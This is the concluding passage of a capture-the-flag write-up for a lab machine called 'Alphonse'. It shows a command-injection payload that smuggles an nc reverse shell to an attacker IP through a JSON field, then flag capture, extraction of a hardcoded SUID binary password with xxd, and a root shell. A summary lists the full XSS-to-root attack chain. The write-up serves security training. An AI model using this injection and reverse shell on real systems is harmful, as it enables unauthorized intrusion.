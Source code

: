 We can easily get a reverse shell from here.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC; nc 192.168.0.34 1337 -e /bin/bash"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
```

```
root@kali:~# nc -nlvp 1337
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We snatch the local flag:

```
cat /home/alphonse/flag.txt
dmx2urv87f2
```

### Priv Esc

After digging around on the machine, we find something interesting in the /home/alphonse/Documents folder. There is a binary with suid bit which asks for a password. 

```
ls -l
total 20
-rwsr-xr-x 1 root root 16976 Sep  3  2019 rootme
./rootme asdf
Wrong password
```

Let's see if we can see the password in clear text in the binary. Usually I'd use `strings` for this, but it doesn't seem to be installed. However, we can use `xxd ./rootme` instead, where we find:

```
00002000: 0100 0200 2e2f 726f 6f74 6d65 203c 7061  ...../rootme <pa
00002010: 7373 776f 7264 3e00 614e 6867 4b69 3478  ssword>.aNhgKi4x
00002020: 754f 0048 6572 6520 796f 7520 676f 3a00  uO.Here you go:.
00002030: 6261 7368 002f 6269 6e2f 7368 0057 726f  bash./bin/sh.Wro
00002040: 6e67 2070 6173 7377 6f72 6400 011b 033b  ng password....;
```

```bash
./rootme aNhgKi4xuO
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag.txt
91bmZfpe2L
```

Bingo!

## Summary

Alphonse is a workstation used for local development and unfortunately he was sharing an Android application through an open FTP server. By reverse engineering this, we learned about an API that was vulnerable to blind XSS, triggered by a visitor on an admin panel. Since the session cookies were protected, we used a tool to ride the authenticated user's session and proxying our attacking web browser through the victim's web browser. From here we learned about another API that communicated with a binary on the OS, which was vulnerable to OS command injection. The final step was to abuse another binary to achieve root privileges.
